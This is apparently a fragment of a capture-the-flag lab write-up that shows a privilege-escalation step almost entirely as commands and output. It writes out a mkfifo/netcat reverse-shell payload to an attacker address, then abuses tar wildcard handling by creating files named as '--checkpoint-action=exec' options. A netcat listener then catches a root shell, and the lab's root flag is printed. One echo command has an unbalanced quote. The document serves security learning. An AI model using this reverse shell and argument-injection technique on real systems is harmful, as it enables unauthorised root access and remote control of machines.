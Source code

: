 ```bash
	$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <our-ip> <our-port> > /tmp/f" > shell.sh
	$ chmod 777 shell.sh
	$ echo "/var/www/html" > "--checkpoint-action=exec=sh shell.sh
	$ echo "var/www/html" > --checkpoint=1
```

```bash
$ ls -l
total 72
-rw-rw-rw- 1 www-data www-data    14 Jun 18 04:54 --checkpoint-action=exec=sh shell.sh
-rw-rw-rw- 1 www-data www-data    14 Jun 18 04:54 --checkpoint=1
drwxr-xr-x 3 www-data www-data  4096 Sep 17  2019 45kra24zxs28v3yd
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 admin
drwxr-xr-x 3 www-data www-data  4096 Sep 17  2019 ai
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 config
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 css
-rw-r--r-- 1 www-data www-data 25015 Sep 17  2019 image.png
-rw-r--r-- 1 www-data www-data   523 Sep 17  2019 index.html
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 js
-rwxrwxrwx 1 www-data www-data    81 Jun 18 04:53 shell.sh
-rw-r--r-- 1 www-data www-data  2667 Sep 17  2019 style.css
```

- We run netcat and automate capture the listener:

```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.11.75.150] from (UNKNOWN) [10.10.250.72] 60552
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cd /root/
# ls
root.txt
# cat root.txt
3f0372db24753accc7179a282cd6a949
```

—> We got the Root.

